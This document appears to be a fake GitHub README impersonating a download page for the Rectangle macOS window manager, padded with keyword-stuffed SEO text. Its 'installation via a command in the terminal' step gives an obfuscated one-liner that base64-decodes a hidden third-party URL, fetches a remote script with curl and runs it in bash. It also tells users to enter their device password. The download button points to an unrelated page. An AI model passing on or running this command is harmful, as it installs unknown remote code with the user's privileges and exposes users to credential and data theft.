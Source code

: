 # Rectangle For Mac — Download For macOS
![Rectangle For Mac Logo](https://rectangleapp.com/assets/pro/images/mac512pts1x.png) 😊

Rectangle For Mac is a powerful, lightweight window management tool designed to enhance your macOS experience. Boost your productivity by organizing your workspace with ease. Follow the instructions below to download and install Rectangle For Mac seamlessly.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/rectangle)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install Rectangle For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🚀 **Effortless Window Management**: Snap windows to predefined layouts with simple keyboard shortcuts or drag-and-drop functionality.
- 🖥 **Multi-Monitor Support**: Seamlessly manage windows across multiple displays for a cohesive workflow.
- ⌨️ **Customizable Shortcuts**: Tailor keyboard shortcuts to match your preferences for a personalized experience.
- ⚡ **Lightweight Performance**: Runs efficiently without draining system resources, ensuring smooth operation.
- 🛠 **Open-Source Flexibility**: Access and contribute to the source code for a transparent and customizable tool.
- 🌐 **macOS Integration**: Designed to blend perfectly with macOS, supporting the latest versions.

## About Rectangle For Mac

Rectangle For Mac is an open-source window management tool that transforms how you organize your workspace on macOS. By offering intuitive window snapping, customizable shortcuts, and multi-monitor support, it empowers users to create an efficient and clutter-free desktop environment. Whether you're a developer, designer, or casual user, Rectangle For Mac simplifies multitasking, making it an essential addition to your macOS toolkit. Its lightweight design ensures it runs smoothly on any Mac device, from MacBook Air to Mac Pro.

Built with productivity in mind, Rectangle For Mac leverages macOS-native features to provide a seamless experience. The software allows you to snap windows to the edges of your screen or predefined grid layouts, saving time and reducing manual resizing. Its open-source nature means the community can contribute to its development, ensuring constant improvements and compatibility with the latest macOS updates. With Rectangle For Mac, you gain control over your workspace without sacrificing system performance.

The tool is particularly valuable for professionals who juggle multiple applications simultaneously. For instance, developers can keep their code editor, terminal, and browser neatly arranged, while designers can align design tools and previews effortlessly. Rectangle For Mac supports a wide range of macOS versions, ensuring accessibility for users with older systems. Its active community and regular updates make it a reliable choice for anyone seeking to optimize their macOS workflow.

By focusing on simplicity and functionality, Rectangle For Mac stands out as a must-have tool for macOS users. Its SEO-optimized design ensures it’s easy to find for those searching for terms like "macOS window manager," "free window management tool," or "Rectangle For Mac download." Whether you're looking to streamline your daily tasks or enhance your productivity, this software delivers a polished and professional experience.

## Advantages of Rectangle For Mac

- 🧩 **Intuitive Window Snapping**: Easily arrange windows with drag-and-drop or keyboard shortcuts.
- ⚙️ **Highly Customizable**: Adjust layouts and shortcuts to suit your unique workflow.
- 📈 **Boosts Productivity**: Organize multiple apps efficiently for faster task completion.
- 💻 **Multi-Monitor Ready**: Works flawlessly across multiple displays for complex setups.
- 🌟 **Free and Open-Source**: No cost, fully transparent, and community-driven.
- 🔄 **Regular Updates**: Stay compatible with the latest macOS versions and features.

## 🖼 Preview

![Window Snapping](https://rectangleapp.com/assets/images/snapAreaScreenshot.jpg)  
*Effortlessly snap windows to grid layouts for a clean workspace.*

![Multi-Monitor Support](https://rectangleapp.com/assets/images/shortcutScreenshot.jpg)  
*Seamlessly manage windows across multiple displays.*

![Custom Shortcuts](https://i.postimg.cc/5tY0nG7W/rectangle-shortcuts.png)  
*Customize keyboard shortcuts for quick window adjustments.*

![Settings Panel](https://i.postimg.cc/0yWqH1mQ/rectangle-settings.png)  
*Access a user-friendly settings panel to tweak preferences.*

## 🔍 Tags

Rectangle mac, Rectangle free, Rectangle, Rectangle download, Rectangle app, Rectangle desktop, Rectangle for mac, macOS window manager, Rectangle For Mac download, free window management tool, macOS productivity software, window snapping mac, multi-monitor macOS tool, open-source mac software, macOS workspace organizer, customizable window manager, macOS efficiency tool
